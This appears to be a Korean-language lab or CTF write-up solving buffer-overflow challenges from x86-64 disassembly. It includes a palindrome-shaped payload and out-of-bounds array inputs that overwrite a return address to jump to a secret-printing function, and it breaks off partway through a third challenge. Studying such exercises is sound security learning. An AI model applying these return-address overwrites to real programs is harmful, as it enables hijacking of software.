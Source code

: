 ```
```

exit을 만나면 main함수로 돌아가는게 아니라 상황이 강제 종료된다. 올바른 배열을 집어넣으며 bufferoverflowf를 일으켜야 했다.  
3보다 크고, 모든 배열이 같은 배열이 조건이라고 생각했는데 아니였다.  
`0x000000000040074b <+88>:	cmp    %dil,(%rsp,%rsi,1)`를 주목해서 봐야했다.  
%edi는 arr[rdx]의 값을 가지고, (%rsp,%rsi,1)는 arr[MAX_LENGTH-1-rdx]값을 가져 +88에서는 회문인지를 검사하는 비교를 진행한다.  
회문이면서 57,58,59번째자리에 overflow를 발생시키면 main함수로의 return address에 burffer overflow를 발생시킬 수 있으므로  
`prog.send_line("\x40\x06\x86"+"A"*53+"\x86\x06\x40")`가 정답이다.

---

## Array Integer

```
   0x0000000000400713 <+0>:	sub    $0x98,%rsp
   0x000000000040071a <+7>:	mov    $0x400848,%edi
   0x000000000040071f <+12>:	callq  0x400530 <puts@plt>
   0x0000000000400724 <+17>:	lea    0x88(%rsp),%rdx
   0x000000000040072c <+25>:	lea    0x8c(%rsp),%rsi
   0x0000000000400734 <+33>:	mov    $0x40085c,%edi
   0x0000000000400739 <+38>:	mov    $0x0,%eax
   0x000000000040073e <+43>:	callq  0x400580 <__isoc99_scanf@plt>
   0x0000000000400743 <+48>:	cmp    $0x2,%eax
   0x0000000000400746 <+51>:	je     0x400754 <use_array+65>
   0x0000000000400748 <+53>:	mov    $0x400862,%edi
   0x000000000040074d <+58>:	callq  0x400530 <puts@plt>
   0x0000000000400752 <+63>:	jmp    0x400766 <use_array+83>
   0x0000000000400754 <+65>:	movslq 0x8c(%rsp),%rax
   0x000000000040075c <+73>:	mov    0x88(%rsp),%edx
   0x0000000000400763 <+80>:	mov    %edx,(%rsp,%rax,4)
   0x0000000000400766 <+83>:	add    $0x98,%rsp
   0x000000000040076d <+90>:	retq
```

Array를 선언하고, 두개의 정수를 입력받는다. 첫번째 입력값은 0x88(%rsp)에, 두번쨰 입력값은 0x8c(%rsp),%rsi에 저장한다.  
`0x0000000000400713 <+0>:	sub    $0x98,%rsp`이므로 %rsp+152에 접근해 buffer overflow를 발생시켜야 하고, 모든 입력을 받은상태에서 %edx,(%rsp,%rax,4)를 호출한다.  
각각 %edx, %rax는 0x8c(%rsp),%rax, 0x88(%rsp),%edx로부터 값을 가져오므로, 첫번째 입력에 38, 두번째 입력에 print_secret의 주소의 10진수인 4196006을 주면 정답이다.

---

### SafeRead

```
   0x0000000000400713 <+0>:	push   %rbx
   0x0000000000400714 <+1>:	sub    $0x40,%rsp
   0x0000000000400718 <+5>:	movq   $0x0,0x30(%rsp)
   0x0000000000400721 <+14>:	movq   $0x0,0x38(%rsp)
   0x000000000040072a <+23>:	movq   $0x0,0x10(%rsp)
   0x0000000000400733 <+32>:	movq   $0x0,0x18(%rsp)
   0x000000000040073c <+41>:	movq   $0x0,0x20(%rsp)
   0x0000000000400745 <+50>:	movq   $0x0,0x28(%rsp)
   0x000000000040074e <+59>:	mov    $0x400888,%edi
   0x0000000000400753 <+64>:	callq  0x400530 <puts@plt>
   0x0000000000400758 <+69>:	lea    0x10(%rsp),%rbx
   0x000000000040075d <+74>:	jmp    0x40079c <echo+137>
   0x000000000040075f <+76>:	movzbl 0x30(%rsp),%eax
   0x0000000000400764 <+81>:	add    $0x1,%eax
   0x0000000000400767 <+84>:	mov    %al,0x30(%rsp)
   0x000000000040076b <+88>:	lea    0xf(%rsp),%rsi
   0x0000000000400770 <+93>:	mov    $0x4008b0,%edi
   0x0000000000400775 <+98>:	mov    $0x0,%eax
   0x000000000040077a <+103>:	callq  0x400580 <__isoc99_scanf@plt>
   0x000000000040077f <+108>:	test   %eax,%eax
```